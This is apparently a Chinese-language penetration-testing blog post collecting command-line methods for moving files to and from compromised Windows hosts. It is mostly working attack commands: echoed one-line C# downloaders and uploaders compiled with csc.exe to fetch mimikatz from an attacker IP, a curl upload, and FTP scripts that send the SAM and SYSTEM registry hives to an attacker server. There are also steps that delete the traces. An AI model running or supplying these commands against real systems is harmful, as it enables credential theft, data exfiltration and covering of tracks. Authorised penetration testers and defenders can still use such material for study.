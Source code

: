 ```yaml
---
layout: post
title: 基于命令行(cmd)的文件上传下载方法汇总
date: 2017-09-18 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

网络上关于命令行上传下载的文章很多，总结的也比较全面，写这篇文章的目的仅仅是为了记录一下自己在渗透测试过程中用到的方法，不求大而全，好用就行。
{:refdef: style="text-align: center;"}
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/基于命令行(cmd)的文件上传下载方法汇总/数据传输.jpg?raw=true)
{: refdef}   





图片来源于http://www.taihainet.com/news/txnews/cnnews/sh/2016-04-17/1711205.html
### \#0x00 使用C#完成文件上传下载
##### （一）使用C#完成文件下载（下载文件mi.exe到目标机器） 
1、把C#文件中的回车换行去掉，把代码写成一行，通过echo命令把代码写入c:\1.cs  
``` 
echo using System.Net;namespace downloader{class Program{static void Main(string[] args){WebClient client = new WebClient();string URLAddress = @"http://172.30.10.49/mi.exe";string receivePath = @"C:\";client.DownloadFile(URLAddress, receivePath+System.IO.Path.GetFileName(URLAddress));}}} > c:\1.cs
```

2、编译C#文件为可执行文件  
利用csc.exe编译C#文件，csc.exe的所在位置与 .NET Framework的版本有关，根据实际情况确定（可通过xp_cmdshell执行dir命令来确定csc.exe的位置。  
```
C:\Windows\Microsoft.NET\Framework\v1.1.4322\csc.exe /out:C:\download.exe C:\1.cs'
```

3、运行download下载mimikatz到目标机器  
```
C:\download.exe
```

4、mi.exe将被下载至C盘。  

5、渗透完成后执行以下命令删除遗留文件1.cs、download.exe、mi.exe
```
del c:\1.cs
del c:\download.exe
del c:\mi.exe
```
##### （二）使用C#完成文件上传（上传文件test.txt到HTTPServer）
1、文件编译方法同上（一），上传用到的1.cs文件如下所示：
```
using System.Net;namespace uploader{class Program{static void Main(string[] args){WebClient client = new WebClient();client.Headers.Add(HttpRequestHeader.Referer,"rerefeR");string URLAddress = @"http://xxxx:8000";string myFile = @"C:\test.txt";client.Credentials = CredentialCache.DefaultCredentials;client.UploadFile(URLAddress, "POST", myFile);client.Dispose();}}}
```
2、启动HTTPServer  
```
python SimpleHTTPServerWithUpload.py 8000
```
  
[SimpleHTTPServerWithUpload.py下载](https://gist.github.com/UniIsland/3346170)  


3、执行1.cs编译生成的可执行文件即可把C:\test.txt上传到HTTPServer机器的SimpleHTTPServerWithUpload.py所在目录。  
补充：如果目标机器上有curl，可以通过下面的命令配合SimpleHTTPServerWithUpload.py上传文件：  
```
curl xxxx:port -F "file=@/path/file" --header "referer:a"
```
#### 二、利用ftp进行上传下载  
[可能会用到的FTP Server推荐FileZilla](https://filezilla-project.org/)
##### （一）利用ftp从目标机器上传文件至ftp服务器  
1、把ftp命令写入文件  
把下面的ftp命令写入目标机器的c:\ftp.txt里  
```
open 172.30.10.49 21  #ftp服务器地址
admin   #username
admin   #password
bin 
PUT c:\sam.hive 
PUT c:\system.hive
```
执行如下命令  
```
echo open 172.30.10.49 21> c:\ftp.txt
echo admin>> c:\ftp.txt
echo admin>> c:\ftp.txt
echo bin>> c:\ftp.txt
echo PUT c:\sam.hive>> c:\ftp.txt
echo PUT c:\system.hive>> c:\ftp.txt
```
注意">、>>"前面不能有空格。  

2、执行ftp命令  
```
ftp -s:c:\ftp.txt
```

3、执行后sam.hive将被上传至ftp服务器根目录。  
4、删除目标机器上的ftp.txt
```
del c:\ftp.txt
```

##### （二）利用ftp把文件下载至目标机器  
1、把ftp命令写入文件  
把下面的ftp命令写入目标机器的c:\ftp.txt里  
```
open 172.30.10.49 21  #ftp服务器地址
admin   #username
admin   #password
bin 
GET mimikatz.exe 
```
依次执行如下命令  
```
echo open 172.30.10.49 21> c:\ftp.txt
echo admin>> c:\ftp.txt
echo admin>> c:\ftp.txt
echo bin>> c:\ftp.txt
echo GET mimikatz.exe>> c:\ftp.txt
```
注意">、>>"前面不能有空格。  
2、执行ftp命令  
```
ftp -s:c:\ftp.txt
```
3、执行后mimikatz.exe将被下载到目标机器c盘根目录。  
